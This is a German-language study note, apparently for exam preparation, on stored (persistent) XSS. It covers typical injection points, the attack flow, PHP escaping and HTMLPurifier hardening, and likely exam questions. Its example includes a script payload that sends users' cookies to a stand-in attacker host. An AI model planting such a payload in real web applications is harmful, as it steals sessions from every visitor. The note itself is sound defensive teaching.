

# Stored XSS (Persistent XSS)

Bei Stored XSS wird die Payload serverseitig gespeichert (z. B. in einer Datenbank) und bei jedem Aufruf der Seite an alle Benutzer ausgeliefert. Er ist daher gefährlicher als Reflected XSS — kein manipulierter Link notwendig.

## Typische Angriffsorte

- Kommentarbereiche
- Benutzernamen / Profilbeschreibungen
- Produktbewertungen
- Chat-Anwendungen / Message Boards

## Ablauf



1. Angreifer schleust Payload in ein Eingabefeld ein (z. B. Kommentar: `<script>...</script>`)
2. Server speichert die Eingabe ungefiltert in der Datenbank
3. Jeder Benutzer, der die Seite aufruft, erhält den Schadcode in der HTML-Antwort
4. Browser jedes Benutzers führt den Schadcode aus

## Beispiel

Anfälliger Eintrag in der Datenbank: `<script>fetch('https://hacker.example/steal?c=' + btoa(document.cookie));</script>`

Jeder Benutzer, der die Kommentarseite aufruft, sendet unbemerkt seinen Cookie an den Angreifer.

## Hardening

### Ausgabe escapen

Beim Lesen aus der Datenbank und Ausgabe in HTML müssen Sonderzeichen escaped werden:

```php
// PHP: htmlspecialchars konvertiert <, >, ", ', &
echo "<li>" . htmlspecialchars($row['name'], ENT_QUOTES, 'UTF-8') . "</li>";
```

Alternativ: `HTMLPurifier`-Bibliothek für komplexere HTML-Bereinigung.

### Eingabe bereinigen

Bereits bei der Speicherung Schadcode entfernen (Defense in Depth):

```php
$clean_name = $purifier->purify(trim($_POST['name']));
```

### Länge begrenzen

Eingaben auf maximal sinnvolle Länge kürzen — reduziert Platz für Payloads.

## Prüfungs-Hotspots

- Warum ist Stored XSS gefährlicher als Reflected XSS? (trifft alle Besucher, kein Link nötig)
- Wo treten Stored XSS typischerweise auf?
- Wo muss Escaping stattfinden? (bei der Ausgabe — Eingabe-Sanitizing als zusätzliche Schicht)
